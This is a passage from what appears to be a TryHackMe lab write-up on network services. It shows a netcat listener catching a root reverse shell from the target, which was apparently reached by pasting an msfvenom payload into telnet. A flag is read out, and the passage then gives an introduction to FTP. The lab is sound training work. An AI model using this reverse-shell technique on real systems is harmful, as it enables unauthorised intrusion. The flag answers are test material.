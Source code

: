 ```
┌──(kali㉿vbox)-[~/tmp/tryhackme/networkservices]
└─$ nc -lvnp 4444                                                       
listening on [any] 4444 ...
connect to [10.13.81.73] from (UNKNOWN) [10.10.208.209] 60286
id
uid=0(root) gid=0(root) groups=0(root)
ls
flag.txt
cat flag.txr
cat: flag.txr: No such file or directory
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}


```


### What would the command look like for the listening port we selected in our payload?  
  nc -lvnp 4444

Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!  

### Success! What is the contents of flag.txt?
THM{y0u_g0t_th3_t3ln3t_fl4g}



## Understanding FTP

**What is FTP?**

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.  

****How does FTP work?****

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.

While the session is open, the client may execute FTP commands on the server.  

**Active vs Passive**

The FTP server may support either Active or Passive connections, or both. 
